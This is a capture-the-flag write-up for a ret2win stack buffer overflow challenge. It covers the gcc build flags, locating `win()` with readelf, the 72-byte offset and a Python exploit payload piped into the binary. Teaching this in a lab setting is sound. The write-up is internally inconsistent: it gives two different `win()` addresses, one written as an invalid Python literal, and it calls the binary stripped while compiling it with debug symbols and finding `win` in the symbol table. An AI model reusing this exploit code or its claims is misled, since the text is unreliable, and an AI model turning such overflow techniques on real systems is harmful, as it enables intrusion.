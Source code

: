 # Buffer Overflow - Personalised Write‑up


**Category:** Binary Exploitation – 150 pts  
**Flag:** `flag{buffer_overflow_ex}`
---


## Challenge Flow

1. Locate `win()` by using readelf -s bof | grep ' win'
2. Discover buffer size using objdump -d bof -Mintel | sed -n '/vuln:/,/retq/p'
3. Compute overflow offset where it is 64 to fill up the buffer and the 8 more bytes to overwrite the code. 
4. Build the payload

payload = b"A"\*72 + struct.pack("\<Q", 0x401176)

5. Trigger the exploit and get the flag of  flag{buffer_overflow_ex}

---

## How Difficulty Was Increased and Defense Mechanisms

I increased the difficulty by not using symbols except in symbol table such that the win() must be hunted itself, this is done through a stripped binary. Furthermore, I enabled NX so that you cant run the shellcode-must ret2win to solve the problem. The provided binary contains a vulnerable function that reads user input into a 64‑byte buffer on the stack using gets. You locate win() by inspecting the symbol table, determine the overflow offset , build a 72‑byte payload address of `win()`, and put it into the binary to hijack execution. The defense mechanisms were the stripped symbols. 

---

### Build Notes

This task is a classic ret2win: `gets()` overflows a 64‑byte stack buffer and lets us return to `win()`.

It is made using this command
```bash
gcc -O0 -g -fno-stack-protector -no-pie -z noexecstack -o bof bof.c
```

### Solution Notes


1. Find `win` address

```bash
readelf -sW ./bof | grep ' win'
```

2. Find offset = 64 (buf) + 8 (saved RBP) = 72.

3. Exploit

```bash
python3 - <<'PY' | ./bof
import struct, sys
win = 0000000000401196
sys.stdout.buffer.write(b"A"*72 + struct.pack("<Q", win))
PY
```

and it prints the flag





---

## Related & Future Variants

- Bypasses like ASLR, Partial-RELRO, Shadow-Stack
- ret2libc / ret2plt / ret2dlresolve style binary exploitations
- Format‐string vulnerabilities 


---

### Sources

- **GDB and pwndbg documentation**: https://github.com/pwndbg/pwndbg
- **ret2win challenges on ROP Emporium**: https://ropemporium.com/
* **Pwntools documentation**: https://docs.pwntools.com/
* **OverTheWire wargames**: https://overthewire.org/wargames/
